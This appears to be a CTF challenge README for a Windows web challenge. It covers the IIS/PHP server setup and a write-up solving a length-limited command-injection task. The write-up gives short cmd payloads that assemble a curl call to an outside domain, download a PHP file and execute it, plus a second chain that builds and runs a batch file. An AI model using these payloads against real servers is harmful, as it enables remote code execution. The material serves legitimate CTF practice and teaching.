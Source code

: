 ## Challenge Information

- Name: Babyfirst Revenge: Remastered
- Type: Web
- Description:

```
This is a remastered edition on Windows 10 of Orange's [Babyfirst Revenge](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) in HITCON CTF 2017.

Hint 1: the intended solution is similar to [Orange's](https://github.com/orangetw/My-CTF-Web-Challenges#solution-10).

Run C:\\getflag.exe I rea11y wan7 t0 get 7h3 f1ag plz! to get the flag.
```

- Files provided: None
- Solves: 1 / 15

## Build

1. Amazon EC2 Windows Server 2019
2. [Install IIS and CGI](https://stackify.com/how-to-host-php-on-windows-with-iis/)
  - Web Server (IIS)
    - Ppen "Turn on or off Windows features"
    - Add roles and Features Wizard
    - next, next, next
    - Server roles -> choose "Web Server (IIS)"
    - Features -> next
    - Web server role (IIS) -> next
    - Role Service -> Application development -> CGI
    - Install

3. Install PHP 7.4.1 x64 via [Microsoft’s Web Platform Installer](https://www.iis.net/downloads/microsoft/web-platform-installer)
  - `wget https://download.microsoft.com/download/8/4/9/849DBCF2-DFD9-49F5-9A19-9AEE5B29341A/WebPlatformInstaller_x64_en-US.msi -O WebPlatformInstaller_x64_en-US.msi`
  - Open Web Platform Installer -> Products -> PHP 7.4.1(x64) -> I accept
  - The PHP Manager for IIS will fail to be installed. It's safe to ignore it.
4. [Enable "Load User profile"](https://stackoverflow.com/a/46535790) such that PHP can use system command.
  - Open IIS manager
  - Select -> Application Pools node underneath the machine node (left panel)
  - Right click on the desired domainname in the application pools -> Advanced settings
  - Scroll to Process Model
  - Set Load User Profile = True
  - Stop and start the applicaiton

5. Put `index.php` in `C:\inetpub\wwwroot`
  - Delete other `iis*` files in the directory
6. Create a directory `C:\sandbox` and prevent user listing the content, but they can still access subdirectories.
  - right click -> properties -> security -> edit -> Users -> Write -> Allow -> OK, yes, OK
  - right click -> properties -> security -> advanced -> add 
  - pricipal: `IUSR` -> type: deny -> applies to: this folder only
  - show advanced permissions -> only check `list folder / read data`
  - ok, ok, ok
7. Allow user to write on etc hosts
  - `C:\windows\system32\drivers\etc\hosts`
  - Right click -> properties -> security -> edit -> Users -> Write -> Allow -> OK, yes, OK
8. Flag:
  - Copy `getflag.exe` to `C:\`
  - right click -> properties -> security -> advanced
  - disable ingeritance -> convert inhrited permissions ...
  - select `Allow Users ...` rules -> Remove
  - add -> pricipal: `IUSR` -> type: allow
  - show advanced permissions -> check `traverse folders / execute file` only
  - ok, ok, ok
9. Delete powershell history:
   - `cmd.exe /c del %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
   - clean all the file on desktop
   - clean the recycle bin

## Writeup

The payload is very similar to [Orange's intended solution](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) but in a Windows version.

```
.>"cur^
.>"l,@^
.>"qst^
.>"r3t^
.>v.tw
dir/b>y
cmd<y>z
php z
```

1. `curl` is present in Windows Server 2019
2. comma will be automatically [split by command line](https://www.robvanderwoude.com/parameters.php#Delimiters) and it will be interpreted as the argument.
3. `@`: because the comma is not a valid character in URL, so we use `@` trick here to bypass it.
4. `qstr3tv.tw` is just a random domain.
5. `^` is used to specify [multiline command](https://stackoverflow.com/a/605724). Actually this character should be escaped but it seems to be okay in command line.
6. `dir /b` works simiarly as `ls`. List files in lexicographical order.
7. `cmd` can read commands from input

We can leverage the helper in the challenge to register the domain `/?tld=tw&domain=qstr3tv&ip=255.255.255.255`.

And make a webserver to host this file:

```
<?php
system("C:\\getflag.exe I rea11y wan7 t0 get 7h3 f1ag plz!");
?>
```

Another solution by @shw:

```
.>cur^^
.>l^^
dir/b>@
del c*
del l*
.>^ -^^
.>o^ ^^
.>p^ ^^
.>qq1^^
.>r.t^^
.>w
ren @ [
dir/b>z
copy[+z
.>b.bat
del *-*
del o^*
del p^*
del q^*
del r^*
del w
del z
copy.+[
b.>b.bat
ren p [
del p
copy.+[
b
```

## Postscript

As mentioned previously, the original idea was [Orange's challenge](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge) - execute command but only in 5 bytes. I just wonder if it's possible in Windows environment, but I can only make the payload less than 8 bytes due to `cmd<y>z`. If you know any payload less than 7 bytes please let me know (or you can create another challenge.)

For the domain helper, I know someone will have problem getting a domain because he has no credit card. Therefore, the `etc\host` trick is in consideration of fairness, to ensure that everyone can have a domain to solve this challenge!
